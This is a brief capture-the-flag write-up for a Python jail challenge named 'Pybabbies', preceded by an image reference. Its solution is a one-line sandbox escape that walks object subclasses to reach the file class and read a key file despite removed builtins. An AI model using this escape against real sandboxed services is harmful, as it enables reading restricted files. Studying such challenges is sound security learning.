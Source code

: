 # Pybabbies (Exploitation 200)
Another python jail problem. We can see from the source code that they removed all the builtins.

The solution:
print([x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'file'][0]('./key').read())
